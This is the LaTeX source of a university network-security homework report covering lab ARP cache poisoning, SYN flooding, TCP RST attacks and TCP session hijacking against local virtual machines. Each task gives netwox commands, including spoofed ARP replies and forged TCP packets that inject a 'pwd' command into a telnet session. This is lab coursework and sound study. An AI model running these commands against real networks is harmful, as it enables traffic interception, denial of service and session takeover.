\documentclass[12pt]{article}
\usepackage[hmargin=30mm,vmargin=30mm]{geometry}
\usepackage{tabularx}
\usepackage{graphicx}
\usepackage{listings}
\lstset{breaklines=true, numbers=left, frame=shadowbox, basicstyle=\scriptsize}
\begin{document}

\title{CS4238 Homework 2}
\author{Laurence Putra Franslay (U096833E)}
\date{22th Oct 2012}
\maketitle

\section{Task 1}
\subsection{How ARP Cache Poisoning works}
When a machine tries to communicate with another machine in a network, it will first have to identify it's hardware address. So it will first send a broadcast message similar to asking \emph{``Who is 192.168.121.2?''}. The machine with the IP address \emph{192.168.121.2} will then respond with an ARP reply packet, basically saying \emph{``I am 192.168.121.2. My hardware address is 00:50:56:e5:1f:0a''}\\


In ARP cache poisoning, the concept is very simple. The attacker simply has to spoof the ARP reply packets that would have been sent by the machine it is trying to spoof. Since ARP does not check if a previous request packet was sent, it will simply update the ARP records with each new packet it recieves. \\

\subsection{How to use netwox to execute ARP Cache Poisoning}
\subsubsection{Known Values}
\begin{table}[here]
\centering
\begin{tabularx}{0.7\textwidth}{ | l | X | }
\hline
Type								&	Value \\
\hline
mac address of attacker machine		&	00:0C:29:41:88:70\\
\hline
ip address of attacker machine		& 	192.168.121.129\\
\hline
mac address of gateway				&	00:50:56:e5:1f:0a\\
\hline
ip address of gateway				& 	192.168.121.2\\
\hline
\end{tabularx}
\end{table}
\subsubsection{Running netwox}
Tool 33 is used for this, to broadcast an ARP packet that \emph{192.168.121.2} has a hardware address of \emph{00:0C:29:41:88:70}. Tool 33 basically serves to send out an ARP reply packet and since the computer doesn't check if it has previously sent a ARP request, sending a new ARP reply to the target machine will update it's ARP table.\\

\begin{lstlisting}
netwox 33 --device "eth2" --eth-src 00:0C:29:41:88:70 --eth-dst 00:0c:29:95:fb:a1 --eth-type 2054 --arp-op 2 --arp-ethsrc 00:0C:29:41:88:70 --arp-ipsrc 192.168.121.2 --arp-ethdst 00:0c:29:95:fb:a1 --arp-ipdst 192.168.121.30
\end{lstlisting}


\subsection{Screenshot of ARP table}
\subsubsection{Before}

\includegraphics[width=160mm]{task11.png}

\subsubsection{After}

\includegraphics[width=160mm]{task12.png}
\pagebreak

\section{Task 2}
\subsection{Mechanism of SYN Flooding Attack}
In TCP, there is generally a 3-way handshake before a connection starts, where the client first sends a \emph{SYN} packet, and the server then responds with a \emph{SYN-ACK} packet, and the client then ultimately responds with a \emph{ACK} packet.\\

In a SYN Flooding Attack, a series of \emph{SYN} packets are sent, and the subsequent \emph{SYN-ACK} packets from the server is ignored. This would result in the server having to dedicate resources to wait for the \emph{ACK} packets from the client.\\

\subsection{Using netwox tool to attack}
The tool used was tool 76, the SYNFlood tool, and was targeted at port \emph{23} of the target machine, ip address being \emph{192.168.121.130}, which telnet was listening to.\\

\begin{lstlisting}
netwox 76 --dst-ip 192.168.121.130 --dst-port 23
\end{lstlisting}

\subsection{Screenshot of half-opened connections}

\includegraphics[width=160mm]{task21.png}

When the SYNFlood attack was ongoing, the machine started to slow down and took longer to even just run \emph{netstat}.\\

\subsection{Changes caused by turning on and off SYN Cookies}
When SYN Cookie is turned on, when the SYN queue fills up, instead of waiting, it discards the SYN entry when it responds with \emph{SYN-ACK}. If the client does finally decide to respond with an \emph{ACK}, it then is able to reconstruct the SYN queue based on the information encoded in the TCP sequence number.

Hence, when SYN Cookies is turned on, the machine would be less prone to slowing down, and hence guard against SYN Floods.
\pagebreak

\section{Task 3}
\subsection{TCP RST Attack}
TCP reset generally is a way for a machine to inform another machine that a TCP connection has terminated and that they can stop sending/recieving data. In cases where 2 computers, computer \emph{A} and \emph{B}, are communicating, computer \emph{A} might have crashed, and computer \emph{B}, not know it would keep trying to send more information to computer \emph{A}. When computer \emph{A} reboots, it would then recieve packets that it has no idea about, and would then send a TCP reset to computer \emph{B}. Computer \emph{B} would then stop take some other action depending on the software. \\

In essence, TCP reset will instantly stop a TCP connection. \\

In a TCP RST Attack, the attacking machine will basically forge the TCP packet from the sender, with the \emph{RST} bit set to 1, and send it to the target machine. This would then instantly result in the connection being dropped, and a new connection must be established to transmit data again. \\

\subsection{Using netwox tool to attack}
Tool 78 is used to launch the TCP RST Attack. Since for this machine, eth2 is the one connected to the network, it is the device used for this attack. \\

\begin{lstlisting}
netwox 78 --device "eth2"
\end{lstlisting}

\subsection{Result}
\subsubsection{Screenshot}
\begin{center}

\includegraphics[width=100mm]{task31.png}
\end{center}
\subsubsection{Description}
The video starts to play on the virtual machine with the IP Address \emph{192.168.121.130}. After the video starts playing, the attacker machine with the IP Address \emph{192.168.121.129} runs the above netwox command. The video on \emph{192.168.121.130} stops playing.
\pagebreak

\section{Task 4}
\subsection{TCP Session Hijacking}
TCP Session Hijacking is an attack that involves intercepting a TCP session between 2 machines in order to hjiack it. Since in most TCP Sessions, the authentication is done only in the beginning, when a TCP Session is hijacked, the attacker will be able to gain the same access as the original user who logged in.

\subsection{Injecting pwd command using netwox tool}
The following commands were used to hijack the session and send the pwd command over. \\

\begin{lstlisting}
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301455 --tcp-window 6912 --tcp-data "70"
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301456 --tcp-acknum 4197381889 --tcp-ack --tcp-window 6912 --tcp-data "77"
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301457 --tcp-acknum 4197381890 --tcp-ack --tcp-window 6912 --tcp-data "64"
netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.121.129 --ip4-dst 192.168.121.130 --tcp-src 53022 --tcp-dst 23 --tcp-seqnum 1737301458 --tcp-acknum 4197381891 --tcp-ack --tcp-window 6912 --tcp-data "0d00"
\end{lstlisting}
\pagebreak
\subsubsection{Meaning of command line arguments}
\begin{table}[here]
\centering
\begin{tabularx}{0.7\textwidth}{ | l | X | }
\hline
Argument			&	Meaning \\
\hline
--ip4-offsetfrag	& 	This represents the offset value of the current fragment in the IP packet. \\
\hline
--ip4-ttl			&	This represents the time to live of the current packet in seconds, with time intervals rounded up, to prevent the packet from persisting on the internet. In practice, this is essentially the number of hops the packet can take before being discarded. \\
\hline
--ip4-protocol		&	This represents the protocol that is carried by the IP packet, which most usually is either TCP or UDP. \\
\hline
--ip4-src			& 	This represents the IP address of the source of this packet. \\
\hline
--ip4-dst			& 	This represents the IP address of the destination of this packet. \\
\hline
--tcp-src			&	This represents the port of the source of this packet. \\
\hline
--tcp-dst			& 	This represents the port of the destination of this packet. \\
\hline
--tcp-seqnum		&	This represents the sequence number of the current TCP packet. \\
\hline
-tcp-acknum			& 	This represents the acknowledgement number of the current TCP packet, which is sent if there was a prior packet that it did not acknowledge. \\
\hline
--tcp-ack 			& 	This is a flag to inform netwox to set the TCP ACK bit to 1. \\
\hline
--tcp-window		& 	This represents the value of the size of the TCP window. \\
\hline
--tcp-data			& 	This represents the data that is sent over the network, and is encoded in \emph{Hex}. \\
\hline
\end{tabularx}
\end{table}

\subsection{Screenshots of results in Wireshark}

\includegraphics[width=160mm]{task41.png}

\includegraphics[width=160mm]{task42.png}

\includegraphics[width=160mm]{task43.png}

\includegraphics[width=160mm]{task44.png}

\includegraphics[width=160mm]{task45.png}
\enddocument
